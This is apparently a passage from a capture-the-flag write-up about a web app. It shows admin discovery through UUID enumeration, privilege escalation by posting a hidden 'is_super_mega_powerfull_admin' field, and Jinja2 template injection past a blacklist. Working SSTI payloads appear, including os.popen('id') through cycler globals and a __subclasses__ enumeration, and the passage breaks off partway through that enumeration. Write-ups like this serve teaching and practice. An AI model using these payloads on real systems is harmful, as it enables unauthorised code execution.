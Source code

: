 Example output:

```
7886f7a0-5459-11f0-afde-0242ac1040a2
78872c7a-5459-11f0-afde-0242ac1040a2
78874dcc-5459-11f0-afde-0242ac1040a2
78874f84-5459-11f0-afde-0242ac1040a2
# ...
```

Most are normal users, but eventually one stands out as **admin**:

![]({{ page.img_path }}2729908a085641a38d3ff5b9bd468f3d.png)

---

## Privilege Escalation: Modifying User Role

The admin profile reveals an unknown field: `is_super_mega_powerfull_admin`, so we send a POST to the profile edit page with this new parameter to become an administrator.

```json
{
  "username": "Sonic",
  "email": "sonic@sega.com",
  "is_super_mega_powerfull_admin": "True"
}
```

After reloading, the UI shows new admin features—**comment add/delete** is unlocked:

![]({{ page.img_path }}bf704960b3d04d609d28672c6cd890ef.png)

---

## Template Injection (SSTI): Breaking the Blacklist

Posting the payload {% raw %}`{{ 7*7 }}`{% endraw %} returns `49`, confirming **SSTI**.

![]({{ page.img_path }}46a1b78bfa7e4472a5e71c043086f328.png)

Trying more advanced payloads quickly hits a blacklist:

* `[`, `]`, `|`, `import`, `__builtins__` are blocked.

I couldn't find the right out-of-the-box payload to use Popen (although it did exist).
The payload was simply : {% raw %}`{{ cycler.__init__.__globals__.os.popen('id').read() }}`{% endraw %}

Instead, I used a much more generic method that works almost every time.
In Python, you can still enumerate all classes via `object.__subclasses__()`.
The goal is to find the index of `subprocess.Popen` and use it for RCE.

To inspect subclasses without `[]` we can use `__getitem__`:

{% raw %}
```python
{{().__class__.__base__.__subclasses__().__getitem__(x)}}
```
{% endraw %}
